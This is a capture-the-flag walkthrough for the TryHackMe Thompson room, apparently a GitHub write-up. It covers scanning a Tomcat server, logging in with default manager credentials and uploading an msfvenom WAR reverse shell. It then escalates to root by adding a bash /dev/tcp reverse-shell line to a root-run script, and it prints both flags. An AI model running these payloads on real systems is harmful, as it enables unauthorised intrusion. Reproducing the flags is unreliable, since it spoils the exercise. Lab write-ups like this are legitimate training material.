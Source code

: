 # TryHackMe-ThompsonCTF

## NMAP
```
Nmap scan report for 10.10.114.149
Host is up (0.17s latency).
Not shown: 997 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 fc:05:24:81:98:7e:b8:db:05:92:a6:e7:8e:b0:21:11 (RSA)
|   256 60:c8:40:ab:b0:09:84:3d:46:64:61:13:fa:bc:1f:be (ECDSA)
|_  256 b5:52:7e:9c:01:9b:98:0c:73:59:20:35:ee:23:f1:a5 (ED25519)
8009/tcp open  ajp13   Apache Jserv (Protocol v1.3)
|_ajp-methods: Failed to get a valid response for the OPTION request
8080/tcp open  http    Apache Tomcat 8.5.5
|_http-favicon: Apache Tomcat
|_http-title: Apache Tomcat/8.5.5
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 34.90 seconds

```

## Gobuster

```
gobuster dir -u http://10.10.114.149:8080/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.t
xt 
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.114.149:8080/
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/09/20 06:49:48 Starting gobuster
===============================================================
/docs (Status: 302)
/examples (Status: 302)
/manager (Status: 302)

```

Visiting `/manager` wait for timeout and it will show a html page where user name `tomcat` and password `s3ecret` is shown.

Start a netcat listener `nc -lvp [port]`

After that upload a WAR file so look for a payload to upload.

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f war > shell.war
```
And you will have a reverse shell.


user flag : 39400c90bc683a41a8935e4719f181bf

## Privlege Escalation

There is a script `id.sh` which appends root id to `test.txt` this means `id.sh` is owned by root so we can insert a bash payload to get a reverse shell

`bash -i >& /dev/tcp/10.8.94.60/6969 0>&1`

root flag : `d89d5391984c0450a95497153ae7ca3a`

